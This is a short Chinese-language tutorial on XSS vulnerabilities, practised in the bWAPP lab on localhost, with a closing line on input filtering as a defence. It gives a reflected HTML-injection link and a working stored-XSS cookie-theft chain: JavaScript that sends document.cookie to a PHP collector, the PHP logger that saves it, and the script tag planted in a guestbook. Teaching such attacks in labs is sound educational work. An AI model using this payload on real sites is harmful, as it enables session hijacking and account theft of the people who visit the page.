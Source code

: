 ### 常见xss漏洞及其简单利用
<br>利用一个简单的表单生成临时的链接

![一个普通的表单](pic/HTMLInject.png)

该表单由于没有对用户的输入进行过滤，会原封不动的将用户输入的账号密码反馈回来，因此我们可以构造一个恶意的链接，欺骗用户去点击。
<br>这里进行简单测试，将某一个名字写成指向百度的HTML元素。
```html
<a href="http://www.baidu.com">ClickHere</a>
```
![名字变成链接](pic/2.png)
<br>成功进入百度首页<br>
![百度](../pic/3.png)

<br>在留言框等地永久执行恶意脚本
<br>这次玩个高级点的，获取用户的cookie。先写一个JavaScript和PHP脚本。
![留言框](pic/blog.png)

```javascript
var img = new Image();
img.src = "http://localhost/bWAPP/hack.php?q="+document.cookie;
document.body.append(img);
<!--document.cookie可以用于获取用户的cookie-->
```

```php
<?php 
$cookie = $_GET['q'];
var_dump($cookie);
$myFile = "cookie.txt"; 
file_put_contents($myFile, $cookie); 
?> 
```
<br>我们先把这两个文件放在合适的地方，本地测试的话可以考虑放在web根目录。构造一对script标签使js脚本可以被执行，进而PHP脚本也会被执行。
<br>我们构造一对标签，为了显示内容，可以随便写点其他东西。
```html
<script src="http://localhost/bWAPP/hack.js">
<!--只要该页面被访问，cookie就会被拿下，然后就可以干好多事了-->
</script>
hahah
```
![脚本加进去了](pic/4.png)
刷新一下发现cookie.txt文件里，出现了cookie的字符串。
![拿到cookie](pic/5.png)

<br>如何防止这些恶意行为呢，这里先提一个最简单的方法，那就是过滤字符串，将一些敏感字符过滤掉可以防止大多数xss攻击。
